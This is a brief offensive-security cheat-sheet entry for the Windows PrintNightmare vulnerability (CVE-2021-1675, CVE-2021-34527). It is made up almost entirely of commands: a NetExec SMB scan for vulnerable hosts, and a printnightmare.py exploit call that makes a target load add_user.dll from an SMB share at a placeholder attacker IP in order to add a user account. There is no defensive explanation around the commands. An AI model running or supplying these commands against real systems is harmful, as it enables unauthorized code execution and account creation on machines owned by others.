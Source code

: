 # Print Nightmare
- PrintNightmare CVE-2021-1675, CVE-2021-34527
```bash


nxc smb <ip> -u 'user' -p 'pass' -M printnightmare #scan

printnightmare.py -dll '\\<attacker_ip>\smb\add_user.dll' 
'<user>:<password>@<ip>
```